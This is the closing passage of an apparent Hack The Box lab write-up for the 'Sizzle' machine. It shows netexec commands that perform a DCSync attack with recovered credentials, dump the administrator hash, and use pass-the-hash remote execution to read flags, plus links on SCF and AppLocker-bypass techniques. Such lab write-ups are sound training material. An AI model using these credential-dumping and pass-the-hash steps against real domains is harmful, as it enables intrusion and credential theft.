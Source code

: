 Finally, all we have to do is:

1. Get `administrator`'s hash by performing a [DCSync](../../tl-dr/active-directory/attacks/dcsync.md) attack with `mrlky`'s credentials
2. Use the hash to compromise the domain by reading both flags :crossed\_flags: (Figure 29).&#x20;

{% code overflow="wrap" %}
```bash
# write mrlky's password into a file
echo "Football#7" > mrlky_pass
# perform the DCSync attack
nxc smb 10.10.10.103 -u mrlky -p mrlky_pass --ntds --user administrator
# write admin's hash into a file
echo "f6b7160bfc91823792e0ac3a162c9267" > admin_hash
# compromise the domain by reading both flags
nxc smb 10.10.10.103 -u administrator -H admin_hash -x 'type c:\users\mrlky\desktop\user.txt;type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/sizzle_flags.png" alt=""><figcaption><p>Figure 29: Compromising the domain by grabbing the flags!</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="SFC Files" %}
{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}
{% endtab %}

{% tab title="x509 Certificates" %}
{% embed url="https://revocent.com/how-to-create-x-509-certificates-on-linux/?source=post_page-----90f747882061--------------------------------" %}
{% endtab %}

{% tab title="Writable AppLocker Paths" %}
{% embed url="https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md#placing-files-in-writeable-paths" %}
{% endtab %}
{% endtabs %}

[^1]: Elevation of Privileges

